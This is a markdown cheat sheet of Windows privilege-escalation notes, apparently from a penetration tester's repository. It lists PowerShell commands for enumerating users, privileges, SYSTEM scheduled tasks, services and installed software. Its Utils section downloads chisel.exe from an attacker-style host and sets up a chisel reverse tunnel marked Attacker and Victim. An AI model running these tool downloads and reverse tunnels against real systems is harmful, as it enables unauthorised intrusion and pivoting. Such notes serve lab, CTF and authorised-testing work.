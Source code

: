 ```yaml
---
title: Windows
---
```


# Windows Privilege Escalation
## Enum tools
- [Win Peas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Resources
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Basic Enum

### Powershell
```powershell
# System info
sysinfo
Get-CimInstance -ClassName Win32_OperatingSystem | Select-Object Name, Version, OSArchitecture
Get-CimInstance -ClassName Win32_BIOS | Select-Object Name, Version

# User/Group/Permission info
whoami
whoami /priv
whoami /groups
net share
net user
net user SomeAccount
net localgroup
net localgroup Administrators
net session
net config workstation
Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True'"

# Ports used
netstat -ano

# Scheduled tasks
Get-ScheduledTask
Get-ScheduledTask | where {$_.Principal.UserId -eq "NT AUTHORITY\SYSTEM"}
Get-ScheduledTask | ForEach-Object { [PSCustomObject]@{ TaskName = $_.TaskName; Action = ($_.Actions).Execute } }
Get-ScheduledTask | Where-Object { $_.Principal.LogonType -eq 'InteractiveTokenOrPassword' }

# Processes/Services
Get-Process
Get-Service
Get-Service | Where-Object {$_.Status -eq "Running"}
Get-WmiObject win32_service | Where-Object {$_.StartName -like "NT Authority*"}

# Check installed Software
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
Get-CimInstance -ClassName Win32_Product | Select-Object Name, Version
```

## Utils

### Powershel http fetch
```powershell
Invoke-WebRequest -Uri "http://10.10.10.10:8000/chisel.exe" -OutFile "chisel.exe"
```

### Chisel port forwarding
```powershell
# Attacker
chisel server -p 8000 --reverse

# Victim
chisel client http://x.x.x.x:8000 R:9200:localhost:9200
```
